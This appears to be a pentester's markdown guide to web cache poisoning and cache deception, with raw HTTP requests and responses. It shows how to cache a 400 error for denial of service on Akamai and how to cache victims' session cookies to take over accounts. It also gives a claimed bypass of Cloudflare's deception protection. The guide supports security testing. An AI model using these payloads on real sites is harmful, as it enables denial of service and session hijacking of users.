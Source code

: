 # Test Cache Poisoing

**Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.**

## Case 1:

If the applicatoin doen not have a login functionality, but using Akami CDN, You can test this method:

    - request:
    raw:  
         GET /xx/xxx/xxx/?param HTTP/1.1
         Host: hostname
         User-Agnet: xyz....
         Accept: text/html,applicaton/xhtml, applicatoin/xml.....
         Accept-Encoding: gzip, deflate
         Upgrade-Isecure-Requests: 1
         Te: trailers
         Connection: close

         - Check if the server is caching normal requests or not (You can tell this by the response header "Server-Timing: cnd-cache; desc=HIT")
         
     response:
         HTTP/2 200 OK
         ...
         Server-Timing: cnd-cahce; desc=HIT
         ...
        
         - Add an Illegal Request Header into the requst body.
         GET /xx/xx/xxx/param HTTP/2
         Host: hostname
         \:
         User-Agnet: xyz....
         Accept: ...
         ....
         
         - If the response was successfully cached, when you open the URL on any browser, you should get 400 Bad Request
         
         
## Case 2:
**If the Applicatoin does have a Login Functionality**
- Create an account
- Test Case1
- Check if any sensitve information is doclosed in any page (e.g: session Token)
- Send the request to Repeater
- Add a Cacheable Extention (.js, .css) at the end of the URL and see if it gives 200 OK Response
- Open the Modified URL using your authenticated Account:
- Open the Same URL using curl or Private Web Browser window.
```bash
curl "https://target.site/?param=1" --compressed | grep -i 'cookies'
```
- If the Token was successfully cached, you should see the Token in the response
### If the Application is using Cloudflare CND
**Illegal header won't work*, and most Cloudflare Cusotmer using Cache Deception Armor*
**_Youc can bypass this protection using .avif file extension while is really unknown extenstion file._**

### Cache Deception TO Account Takeover:
     All cookies (even HTTPonly ones) are being disclosed in https://target.com/app/account/1.js
     if an authenticated user visit this URL all their cookies will be stored in the cache
     An attacker can then extract the cookie and hijack their session.

### TIps & Trick
- In some Applicatoin, if you add a semicolon (;) before the extension it may give you a 200 OK response
  xxx/xxx/xxx/;.js 
  HTTP/2 200 OK
  
 
 ## Case 3: Cache Poisoning to DoS:
 **In Akamai CND, if we send a backslash \ as a header, the server will respond with ```400 Bad Request``` Response**
     request:
 
     raw: 
        GET /products/xxx/xxxx/xxx/?test HTTP/2
        Host: www.host.com
        \: 
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

   Response:
        
        HTTP/2 400 Bad Request
        Content-Type: text/html;charset=iso-8859-1
        Content-Length: 70
        Cache-Control: max-age=297
        Expires: Thu, 21 Jul 2022 16:17:54 GMT
        Date: Thu, 21 Jul 2022 16:12:57 GMT
        Server-Timing: cdn-cache; desc=HIT
        Server-Timing: edge; dur=32
        Server-Timing: origin; dur=147
        Strict-Transport-Security: max-age=86400
        Ak-Uuid: 0.bc85d817.1658419977.1592c61

**This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like**
_www.host.com/product/*_
_www.host.com/*_

etc... It become a very impactful bug:

    
         

